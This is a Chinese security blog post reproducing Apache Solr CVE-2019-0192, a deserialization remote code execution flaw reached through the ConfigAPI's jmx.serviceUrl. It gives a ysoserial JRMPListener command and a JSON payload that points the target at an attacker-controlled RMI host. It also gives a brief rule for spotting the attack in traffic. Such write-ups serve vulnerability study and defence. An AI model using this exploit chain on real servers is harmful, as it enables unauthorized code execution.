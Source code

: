 ```yaml
---
layout: post
title:  "Apache Solr 远程命令执行漏洞(CVE-2019-0192)" 
date:   2019-08-05 13:47:46
categories: Development
author: co0ontty
categories: 安全开发 漏洞复现 ALL
tags: 安全开发 漏洞复现 ALL
describe: Apache Solr 远程命令执行漏洞(CVE-2019-0192)
cover: '/assets/img/posts/apachesolr.png'
---
```


## Apache Solr 远程命令执行漏洞(CVE-2019-0192)

### 漏洞概述

 Apache Solr 中的 ConfigAPI 允许设置一个 jmx.serviceUrl，它将创建一个新的 JMXConnectorServerFactory，并通过“绑定”操作触发对目标 RMI/LDAP 服务器的调用。恶意的 RMI 服务器可以响应任意的对象，这些对象将在 Solr 端使用 java 的 ObjectInputStream 反序列化，这被认为是不安全的。这种类型的漏洞可以利用 ysoserial 工具。根据目标类路径，攻击者可以使用其中一个“gadget chain”来触发 Solr 端上的远程代码执行。

### 漏洞环境搭建

参考：[环境安装教程](https://blog.csdn.net/yalecaltech/article/details/88829590)

### 漏洞复现

1、环境成功运行之后，切换到 ysoserial.jar 的目录下，运行：

```cmd
java -cp ysoserial.jar ysoserial.exploit.JRMPListener 1234 Jdk7u21 calc.exe
# 其中 calc.exe 为需要执行的命令
```

使用 ysoserial.jar 在本地 1234 端口创建一个 rmi server，当反序列化数据 发送到 Server 中，然后 Server 中进行反序列化操作，并开启指定端口，然后在通过 JRMPClient 去发送攻击 payload 

2、使用 burpsuite 抓包 ip/solr/techproducts/config 

3、添加`content-type:application/json`和`content-length`

4、然后在 http_client_body 中插入 payload 

```html
{“set-property” : {“jmx.serviceUrl” : “service:jmx:rmi:///jndi/rmi://ysoserical's ip:ysoserical's port/obj”}}
```

### 流量分析

检测请求中是否包含 setProperty 方法，如果存在 setProperty 方法，且存在对 rmi 服务端的请求，则可以判定存在攻击行为

### 参考链接

[参考链接 from github](https://github.com/mpgn/CVE-2019-0192)

[参考链接 from 先知社区](https://xz.aliyun.com/t/4422)
